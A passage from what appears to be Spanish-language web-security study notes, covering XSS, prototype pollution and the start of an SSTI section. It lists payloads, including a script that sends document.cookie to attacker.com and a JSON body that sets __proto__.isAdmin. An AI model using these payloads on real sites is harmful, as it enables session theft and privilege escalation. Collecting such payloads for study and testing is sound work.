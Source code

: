     ```html
    <script>alert('XSS')</script>
    ```
    
- **DOM-Based XSS:**
    
    ```javascript
    <img src="x" onerror="alert('XSS')">
    ```
    
- **Exfiltración de cookies:**
    
    ```javascript
    <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
    ```

---

## 3. Prototype Pollution

### 📌 Concepto

Permitir que un atacante modifique el prototipo global de objetos JavaScript, afectando el comportamiento de toda la aplicación.

### 🔑 Payloads comunes

```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        "artist.__proto__.isAdmin": true
    })
});
```

### 🔑 Verificación

```javascript
console.log({}.isAdmin); // true (indica contaminación del prototipo)
```

---

## 4. Server-Side Template Injection (SSTI) [[Inyección de Comandos]]

### 📌 Concepto

Permitir que un atacante ejecute código arbitrario en el servidor mediante la inyección de plantillas dinámicas.

### 🔑 Payloads comunes
